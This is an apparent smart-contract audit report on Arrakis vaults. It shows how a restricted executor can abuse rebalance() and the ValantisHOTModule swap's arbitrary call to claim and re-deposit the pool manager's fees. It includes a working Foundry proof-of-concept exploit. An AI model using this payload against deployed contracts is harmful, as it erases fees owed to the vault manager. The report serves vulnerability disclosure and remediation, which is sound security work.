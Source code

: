 Tricky Alabaster Panda

high

# A malicious executor can delete the fees belonging to the owner of `ArrakisStandardManager`

## Summary

The contest README states that the `executor` of `ArrakisStandardManager` is a RESTRICTED role during rebalance action on vaults.

This report shows a way for the `executor` to call `ArrakisStandardManager::rebalance()` with a malicious payload, which ends up stealing the accrued manager fees and re-depositing them into the pool’s liquidity.

## Vulnerability Detail

On calling `rebalance()` , it makes a call to the module, with provided `payloads_` from the `executor`:

```solidity
(bool success,) = address(module).call(payloads_[i]);
```

For this attack, the payload’s function signature will be of the `swap()` function in the `ValantisHOTModule`

The `swap()` function essentially does these 3 things:

1. Withdraw liquidity from the pool (via ALM)
2. Do an arbitrary call to an arbitrary address (`router_.call(payload_)`)
3. Deposit the resulting balance back into the pool (via ALM)

The intended functionality is that in step 2, a call is made to a router which swaps the tokens to rebalance the funds.

However, a malicious executor can use this arbitrary call to execute any admin function in other contracts (HOT, SovereignPool) that only this module is allowed to call.

The issue with the above is that the `swap()` function has a slippage check after step 2:

```solidity
if (zeroForOne_) {
    if (balance1 < _actual1 + expectedMinReturn_) { // require(balance1 >= _actual1 + expectedMinReturn_);
        revert SlippageTooHigh();
    }
} else {
    if (balance0 < _actual0 + expectedMinReturn_) {
        revert SlippageTooHigh();
    }
}
```

This means that in order for the `swap()` to not revert, the balance of the output token must increase by at least `expectedMinReturn_` during step2.

Now due to the `_checkMinReturn`  check that is done at the start of `swap()` , the `expectedMinReturn_` must be at least 1. 

Hence, in step 2, trying to call admin functions like `HOT.setFeeds()`  will revert since no tokens are sent in to the contract during this call, so it fails the slippage check shown above. This is the case for most admin functions except for two, one of which is `SovereignPool.claimPoolManagerFees`: 

```solidity
function claimPoolManagerFees(
    uint256 _feeProtocol0Bips,
    uint256 _feeProtocol1Bips
)
    external
    override
    nonReentrant
    onlyPoolManager
    returns (uint256 feePoolManager0Received, uint256 feePoolManager1Received)
{
    (feePoolManager0Received, feePoolManager1Received) = _claimPoolManagerFees(
        _feeProtocol0Bips,
        _feeProtocol1Bips,
        msg.sender
    );
}
```

We can see that the pool manager fees are sent to `msg.sender` which is the module. This will increase the module’s balance during step 2, allowing it to pass the slippage check. 

Then, these claimed manager fees will be deposited back to the pool in step3, effectively deleting the accrued manager fees. (All of this is proven in the coded PoC)

In addition to the above fund loss, since `poolManager` is updated to `address(0)`, any `onlyPoolManager` functions within the pool will revert.

## Impact

100% of the fees which are meant for the Arrakis manager are re-deposited into the pool by a malicious `executor` and never claimable by the manager. 

## Proof of Concept

Here is a coded proof of concept demonstrating the vulnerability in action.

To run it, add the following code to a new file within the `arrakis-modular/test/integration` directory. Then run `forge test --mt test_stealManagerFees` in the terminal.

<details><summary>Coded PoC</summary>
    
    ```solidity
    // SPDX-License-Identifier: UNLICENSED
    pragma solidity ^0.8.19;
    
    // Foundry Imports
    import {console} from "forge-std/console.sol";
    import {Vm} from "forge-std/Vm.sol";
    import {Test} from "forge-std/Test.sol";
    
    // Arrakis Imports
    import {IArrakisMetaVaultPublic} from
        "../../src/interfaces/IArrakisMetaVaultPublic.sol";
    import {IArrakisMetaVault} from
        "../../src/interfaces/IArrakisMetaVault.sol";
    import {IArrakisStandardManager} from
        "../../src/interfaces/IArrakisStandardManager.sol";
    
    // Valantis Imports
    import {IValantisHOTModule} from
        "../../src/interfaces/IValantisHOTModule.sol";
    import {SovereignPool} from  "../../lib/valantis-hot/lib/valantis-core/src/pools/SovereignPool.sol";
    import {HOT} from "@valantis-hot/contracts/HOT.sol";
    
    // Base Test
    import {ValantisIntegrationPublicTest} from "./ValantisIntegrationPublic.t.sol";
    
    contract PoC_StealManagerFees is ValantisIntegrationPublicTest {
    
        address attacker;
        address rec;
        
        function test_stealManagerFees() public {
            rec = makeAddr("rec");
            attacker = makeAddr("attacker");
    
            address m = address(IArrakisMetaVault(vault).module());
            assertEq(pool.poolManager(), m);
    
            deal(address(token0), rec, init0); // 2000e6 (0: USDC)
            deal(address(token1), rec, init1); // 1e18   (1: WETH)
    
            // user mints from meta vault
            vm.startPrank(rec);
            token0.approve(m, init0);
            token1.approve(m, init1);
    
            IArrakisMetaVaultPublic(vault).mint(1e18, rec);
            vm.stopPrank();
    
            uint256 FEE_AMOUNT_0 = 1 wei;
            uint256 FEE_AMOUNT_1 = 1 wei;
            
            // Simulating 1 wei of fees in the `SovereignPool`
            vm.store(address(pool), bytes32(uint(5)), bytes32(FEE_AMOUNT_0));
            vm.store(address(pool), bytes32(uint(6)), bytes32(FEE_AMOUNT_1));
    
            // Sending the fee to the pool
            deal(address(token0), address(pool), token0.balanceOf(address(pool)) + FEE_AMOUNT_0);
            deal(address(token1), address(pool), token1.balanceOf(address(pool)) + FEE_AMOUNT_1);
    
            bool zeroForOne = false;
            uint256 amountIn = 1; // Using small values since we are not actually swapping anything
            uint256 expectedMinReturn = 1;
    
            // payload that claims the fees and sends it to the LPModule
            bytes memory payload = abi.encodeWithSelector(
                SovereignPool.claimPoolManagerFees.selector, 
                0,
                0
            );
    
            bytes memory data = abi.encodeWithSelector(
                IValantisHOTModule.swap.selector,
                zeroForOne,
                expectedMinReturn,
                amountIn,
                address(pool),
                0, //note: this 0,0 lets us skip the checks in `HOT::_checkSpotPriceRange` during depositLiquidity
                0,
                payload
            );
    
            bytes[] memory datas = new bytes[](1);
            datas[0] = data;
            
            (uint256 reserves0Before, uint256 reserves1Before) = pool.getReserves();
            // Perform the attack
            vm.prank(executor);
            IArrakisStandardManager(manager).rebalance(vault, datas);
            (uint256 reserves0After, uint256 reserves1After) = pool.getReserves();
            
    
            // Assert that fees meant for the manager were re-deposited
            assertEq(reserves0After, reserves0Before + FEE_AMOUNT_0);
            assertEq(reserves1After, reserves1Before + FEE_AMOUNT_1);
    
            // Assert that the remaining fees is 0
            (uint256 fee0, uint256 fee1) = pool.getPoolManagerFees();
            assertEq(fee0, 0);
            assertEq(fee1, 0);
        }
    }
    ```
  </details>

## Code Snippet

**The arbitrary call to the arbitrary address:**

https://github.com/sherlock-audit/2024-03-arrakis/blob/64a7dc6ccb5de2824870474a9f35fd3386669e89/arrakis-modular/src/abstracts/ValantisHOTModule.sol#L375-L378

**minReturn check that is bypassed by the fees claimed:**

https://github.com/sherlock-audit/2024-03-arrakis/blob/64a7dc6ccb5de2824870474a9f35fd3386669e89/arrakis-modular/src/abstracts/ValantisHOTModule.sol#L384-L397

## Tool used

Manual Review

## Recommendation

Don’t allow the `router_`  parameter in `ValantisModule` to be the `SovereignPool`  associated with this module.

```diff
+ if (router_ == address(pool)) revert();
```